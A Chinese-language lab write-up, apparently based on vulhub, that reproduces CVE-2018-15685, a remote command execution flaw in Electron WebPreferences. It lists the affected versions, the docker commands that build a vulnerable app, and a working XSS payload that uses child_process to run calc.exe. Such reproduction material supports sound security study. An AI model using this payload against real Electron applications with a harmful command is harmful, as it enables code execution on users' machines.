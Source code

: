 ```yaml
---
title: （CVE-2018-15685）Electron WebPreferences 远程命令执行漏洞
id: zhfly2907
---
```


# （CVE-2018-15685）Electron WebPreferences 远程命令执行漏洞

## 一、漏洞简介

Electron在设置了`nodeIntegration=false`的情况下（默认），页面中的JavaScript无法访问node.js的内置库。CVE-2018-15685绕过了该限制，导致在用户可执行JavaScript的情况下（如访问第三方页面或APP存在XSS漏洞时），能够执行任意命令。

## 二、漏洞影响

GitHub Electron 1.7.15版本，1.8.7版本，2.0.7版本，3.0.0-beta.6版本。

## 三、复现过程

### 编译APP

执行如下命令编译一个包含漏洞的应用：

```
docker-compose run -e PLATFORM=win64 --rm electron 
```

其中PLATFORM的值是运行该应用的操作系统，可选项有：`win64`、`win32`、`mac`、`linux`。

编译完成后，再执行如下命令，启动web服务：

```
docker-compose run --rm -p 8080:80 web 
```

此时，访问`http://www.0-sec.org:8080/cve-2018-15685.tar.gz`即可下载编译好的应用。

### 漏洞复现

在本地打开应用：

![image](../img/4a7fe7ac103a70924367b1965f176681.png)

点击提交，输入框中的内容将会显示在应用中，显然这里存在一处XSS漏洞。

我们提交``，发现没有任何反馈，原因就是`nodeIntegration=false`。

此时，提交POC（Windows）：

```
<img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>');"> 
```

可见，calc.exe已成功弹出：

![image](../img/79f7625aa04779409bcf2f8812b098fe.png)

## 参考链接

> https://vulhub.org/#/environments/electron/CVE-2018-15685/